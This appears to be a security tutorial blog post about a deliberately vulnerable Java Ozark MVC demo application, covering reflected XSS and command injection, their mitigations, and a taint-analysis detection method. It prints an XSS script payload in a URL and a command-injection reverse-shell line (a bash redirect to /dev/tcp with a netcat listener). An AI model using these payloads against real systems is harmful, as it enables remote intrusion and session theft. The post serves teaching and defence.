 ```yaml
---
title: 'Cross Site Scripting (XSS) and Command Injection Tutorial in Ozark'
date: 2019-09-30
permalink: /posts/2012/08/blog-post-1/
tags:
  - cool posts
  - category1
  - category2
---
```


**Problem Statement:**
======

The challenge is to code up an application exhibiting a set
of (potential) weaknesses feasible in the Ozark framework. 

<a href='https://github.com/farif/Ozark-mvc-j2ee'>Source Code</a>

 
**\[Research & Threat Modeling\]:**

Model-View-Controller (MVC) is a framework/design-pattern for building
web applications. It introduces a paradigm of clean design by separating
concerns about modeling, presentation, and business logic in an
application.

MVC 1.0 (ref: JSR 371) is a property action-oriented framework, as
compared to the (predecessor) UI component-oriented MVC. It provides a
lot of flexibility to developers through features like: doesn't hide
HTTP request and response mechanism, didn't dictate or constraint the
use of HTML/CSS/JS and the actions-events are directly passed on to the
backend. Unfortunately, these features comes at the price of the
security by exposing too much attack surface. Even though Ozark API
\[Chapter 4 (ref: JSR 371)\] does provide few mitigatations functions
and/or controls but mostly the security aspect is overlooked. For
example, CSRF protection via tokens and XSS encoder to escape malicious
JS but this support isn't enough to fend off all security threats. Thus
required a comprehensive security assessment in every aspect of the
software development life cycle.

The reference implementation for MVC 1.0 is called Ozark \[2\]. A quick
round of threat modeling reveals that the natively developed application
can be easily compromised. Because the framework didn\'t give much
consideration to the security aspects and exposes too much attack
surface. We have developed an application to demonstrate that reflects
on critical weakness, one that impacts the client-side while the other
results in a complete server-side compromise (consult Fig 1).

> ![](http://farif.github.io/files/blogs/ozark/ozark_app.png)
>
> Fig 1: Threat Model for Ozark App.

The two exposed weakness are:

**\[Vulnerable Application 1\] Cross-Site Scripting (XSS): Reflected**

It is an application flaw that exploits victims trust in the
application. The application accepting non-trusted data (user-provided
inputs) and returning it to the browser without validation or
sanitization that may lead to run malicious scripts in the victim\'s
browser resulting to a compromise via hijacked sessions, stolen cookie,
invalid redirects, etc. The mitigation is to escape or filter out all
the special characters in the reply and help to avoid any reflected
script back to the victim.

**\[Vulnerable Application 2\] Command Injection:**

It is an application flaw that exploits application trust in the user.
The adversary goal is to execute arbitrary commands using controls
(forms, cookies, HTTP headers, etc.) provided with the vulnerable
application. The application passes unsafe user-supplied data to the
server-side and without proper validation it gets executed with a
handsome privilege. The prevention or mitigation for command injection
attacks is to employ rigrious input validation.

**\[Test Applications\]**

**Test Vulnerable Application 1:**

It is a simple greeting application, provided with a user name returns a
greeting message. The attacker can able to execute a malicious JS on the
victims-machine through malformed input appended in the input parameter
to the URL.

![thumbnail](http://farif.github.io/files/blogs/ozark/fig_1.png)

**Vulnerability:** Reflected Cross-site Scription (XSS).

**Exploit:**

ozark-vuln-app/ozark-vuln/XSS?name=Alex+%3Cscript%3Ealert(%22Bingo%22)%3C/script%3E

![](http://farif.github.io/files/blogs/ozark/fig_2.png)

**NOTE:** If the victim is using Google Chrome, it blocks the execute
and return an error page with the exception:\
ERR\_BLOCKED\_BY\_XSS\_AUDITOR\
This check can be bypassed but we didn't investigated it further.

**Test Vulnerable Application 2:**

It is the same application that sends an email to the user-provided
email address. An attacker pwned the server machine (even the one behind
the firewall or in a protected network) by simply executing a reverse
shell.

![](http://farif.github.io/files/blogs/ozark/fig_3.png)

**Vulnerability:** Command Injection

**Exploit:**\
Deploying a reverse shell.

Listening on attacker's machine:

\#sudo nc -l 5555

Fill in the 'E-Mail:' box:

test\@hotmail.com \| bash -i \>& /dev/tcp/127.0.0.1/5555 0\>&1

![](http://farif.github.io/files/blogs/ozark/fig_4.png)

![](http://farif.github.io/files/blogs/ozark/fig_5.png)

![](http://farif.github.io/files/blogs/ozark/fig_6.png)

**Test Safe Application 1:**

This the counterpart of previous vulnerable application. The security
checks are implemented to stop cross-site scripting attack.

![](http://farif.github.io/files/blogs/ozark/fig_7.png)

**Mitigation:**

The mitigation is to escape/encode the special character's in the
provided URL before sending it back.

No reflected XSS attack is possible in it.

![](http://farif.github.io/files/blogs/ozark/fig_8.png)

**Test Safe Application 2:**

This the counterpart of the previous vulnerable application. The
security checks are implemented to stop command injection attack.

![](http://farif.github.io/files/blogs/ozark/fig_9.png)

**Mitigation:**

The fix is to validate the email address contents before passong on the
program that execute mail client command.

Fail to execute the injected command.

![](http://farif.github.io/files/blogs/ozark/fig_10.png)

**Disclaimer:** The code snippets of 'Michael Scharhag' \[4\] has been
used to develope above applications.

**\[Detection\]**

Due to a large volume of web applications, the need for automated
analysis tools is on the rise. For detection, we simply employ taint
analysis to discover the vulnerable code in the aforementioned
application. The goal of our analysis is to determine whether it is
possible that user-provided data reaches sensitive a sink without being
properly sanitized. More precisely, through annotations, we collect data
orignated from untrusted source/user inputs (taint seeds). These
annotations are provided with the classes (\@BeanParam, \@QueryParam).

Using a tainted policy (similar to the one suggested in \[5,6\]) that
propagates the tainted values in the program execution paths and then
checks the taint status at a critical locations (taint sinks). The taint
sinks in our case are the path to the function-calls that execution
system command and/or alter the model state which is returned to the
user without going through any validation check.

**Algorithm** (algorithm pseudocode):

Input: Java Classes with annotated functions.

ouput: Safe or Unsafe Program.

prog\_ast = antlr\_parser(input\_program)

prog\_cfg = build\_CFG(prog\_ast) (Control Flow Graph)

safe\_flag = apply\_tainted\_policy(prog\_cfg)

Return safe\_flag;

**End**;

The proposed method is a little bit imprecise (not sound and definitely
incomplete). It might fail to detect the issues and/ or raise false
alarms due to under-tainting or over-tainting. But it seems to be
sufficient in the proposed setting.

**References:**

\[1\] MVC 1.0 - Model-View-Conrtoller Specification, Ivar Grimstad,
Christain Kaltepoth, v1.0, September 2018
([[https://jcp.org/en/jsr/detail?id=371]{.underline}](https://jcp.org/en/jsr/detail?id=371))

\[2\] Ozark - Reference Implementation for MVC 1.0 \[Oracle Website\]

\[3\] Vulncat.fortify.com/en

\[4\]
https://github.com/mscharhag/java-ee-8-mvc/tree/master/getting-started

\[5\] Schwartz, Edward J., Thanassis Avgerinos, and David Brumley. \"All
you ever wanted to know about dynamic taint analysis and forward
symbolic execution (but might have been afraid to ask).\" 2010 IEEE
symposium on Security and privacy. IEEE, 2010.

\[6\] Vogt, Philipp, et al. \"Cross Site Scripting Prevention with
Dynamic Data Tainting and Static Analysis.\" NDSS. Vol. 2007. 2007.